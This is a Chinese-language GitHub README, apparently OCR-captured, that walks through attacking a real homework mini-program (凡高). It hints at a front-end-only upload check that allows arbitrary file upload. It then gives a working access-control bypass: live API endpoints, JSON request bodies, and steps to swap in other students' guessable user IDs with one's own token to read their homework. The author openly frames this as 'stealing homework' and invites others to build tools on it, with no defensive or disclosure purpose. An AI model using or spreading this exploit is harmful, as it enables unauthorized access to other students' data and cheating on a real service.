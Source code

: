 # 凡高的抓包及逆向分析
### 我们通过逆向可以知道啥
我们不妨可以通过逆向可以看看凡高这个 *** 写了什么屌代码
##### 因为这里存在高危漏洞，不方便放出来，有技术的哥们自己悟吧！（你们的渗透与我无关，我并未提供任何技术细节及暗示）

 我们通过逆向项目小程序代码发现其中作业提交有巨大的安全隐患，对于图片的格式认证只做了前端认证，理论是只要绕过前端就可以实现任意文件上传，恰恰这个 *** 做了前后端分离，这就直接导致我们可以通过调取api的方式获取到上传权限。。。
（这个东西涉及渗透，所以我教不了，大家自己研究研究吧）

### 我们通过抓包可以知道啥
我们都知道，其中有一个功能很神奇叫做==互相判作业==,这个玩意就是我们突破的关键，why？因为这个东西很神奇，因为我根本不知道我会批改谁的作业，所以这里的权限管理十分混乱，所以就导致我登录凭证是A，但我可以访问B的作业。这便是我们偷作业的基本实现逻辑。

因为主播也怕给自己找麻烦，所以只提供部分的指导，我相信有志之士将会根据我的部分代码及逻辑开发出相应的应用程序的。

好了废话不多说直接开始

#### api库
##### 1.用户信息

| 请求方式 | 请求url                                                 |
| ---- | ----------------------------------------------------- |
| post | https://api.fangao.100eks.com/member.miniprogram.auth |

这个需要wxcode的唯一认证，所以我们获取token的方式只有抓包。（不会抓包的放弃吧）

##### 2.作业列表

| 请求方式 | 请求url                                                |
| ---- | ---------------------------------------------------- |
| post | https://api.homework.100eks.com/member.homework.list |

这个就需要我们手动改包和发包了
不妨给您看看包的结构

```json
{
"request" : {
	"mid":88888888,
	"subject_id":1,
	"page":1,
	"pageSize":10}
}
```
很好，这就是发包的内容，我们需要做什么？
只需要把你想偷人的 ```mid``` 换上去即可，这时候有聪明的小伙伴问了：主播主播，你的技术确实很强，但我怎么知道别人的的mid呢？（其实在你mid的基础上改个十位的数字就好了）。
> 还有重要的不要忘记请求头加上你的token

好了，这样我们就可以收到想下面这样的data

```json
{ 
	"code": 0, 
	"msg": "请求成功", 
	"time": 88888888, 
	"data": [ { 
		"chid": 88888888, 
		"hid": 88888888, 
		"subject_name": "语文", 
		"subject_id": 1, 
		"username": "name", 
		"mid": 88888888, 
		"homework_title": "语文寒假作业", 
		"start_date": "2025-00-00 00:00:00", 
		"end_date": "2025-00-00 00:00:00", 
		"status": 0, 
		"type": "homework", 
		"homework_type": 1 },  
	] }
```
大家可以通过识别上面的username，来检查是否成功。
我们需要上面的一些信息让我们完成后面的部分

#### 3.作业页

| 请求方式 | 请求url                                                        |
| ---- | ------------------------------------------------------------ |
| post | https://api.homework.100eks.com/member.homework.success.card |

发包内容

```json
{
"request" : {
	"mid":88888888,
	"hid":"0000"
	}
}
```
修改方式同上
这样简单的偷作业就完成了。

